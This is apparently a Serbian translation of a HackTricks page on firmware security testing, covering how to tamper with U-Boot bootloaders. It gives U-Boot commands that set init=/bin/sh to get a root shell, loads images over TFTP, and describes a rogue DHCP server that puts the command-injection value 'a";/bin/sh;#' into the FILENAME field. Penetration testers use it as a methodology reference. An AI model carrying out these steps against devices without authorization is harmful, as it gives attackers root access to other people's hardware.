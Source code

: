 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

Sledeći koraci se preporučuju za modifikaciju konfiguracija pokretanja uređaja i bootloader-a kao što je U-boot:

1. **Pristup Bootloader-ovom Interpreter Shell-u**:
- Tokom pokretanja, pritisnite "0", razmak ili druge identifikovane "magijske kodove" da biste pristupili bootloader-ovom interpreter shell-u.

2. **Modifikujte Boot Argumente**:
- Izvršite sledeće komande da dodate '`init=/bin/sh`' boot argumentima, omogućavajući izvršavanje shell komande:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **Postavite TFTP Server**:
- Konfigurišite TFTP server za učitavanje slika preko lokalne mreže:
%%%
#setenv ipaddr 192.168.2.2 #lokalna IP adresa uređaja
#setenv serverip 192.168.2.1 #IP adresa TFTP servera
#saveenv
#reset
#ping 192.168.2.1 #proverite pristup mreži
#tftp ${loadaddr} uImage-3.6.35 #loadaddr uzima adresu za učitavanje datoteke i naziv datoteke slike na TFTP serveru
%%%

4. **Iskoristite `ubootwrite.py`**:
- Koristite `ubootwrite.py` za pisanje U-boot slike i slanje modifikovanog firmvera za dobijanje root pristupa.

5. **Proverite Debug Funkcije**:
- Proverite da li su debug funkcije kao što su detaljno logovanje, učitavanje proizvoljnih kernela ili pokretanje sa nepouzdanih izvora omogućene.

6. **Opasna Hardverska Interferencija**:
- Budite oprezni prilikom povezivanja jednog pina na masu i interakcije sa SPI ili NAND flash čipovima tokom sekvence pokretanja uređaja, posebno pre nego što se kernel dekompresuje. Konsultujte se sa tehničkim listom NAND flash čipa pre nego što kratko spojite pinove.

7. **Konfigurišite Rogue DHCP Server**:
- Postavite rogue DHCP server sa zlonamernim parametrima koje uređaj može da preuzme tokom PXE pokretanja. Iskoristite alate kao što je Metasploit-ov (MSF) DHCP pomoćni server. Modifikujte 'FILENAME' parametar sa komandama za injekciju kao što su `'a";/bin/sh;#'` da biste testirali validaciju unosa za procedure pokretanja uređaja.

**Napomena**: Koraci koji uključuju fizičku interakciju sa pinovima uređaja (*označeni zvezdicama) treba da se pristupaju sa ekstremnim oprezom kako bi se izbeglo oštećenje uređaja.


## References
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% hint style="success" %}
</details>
{% endhint %}
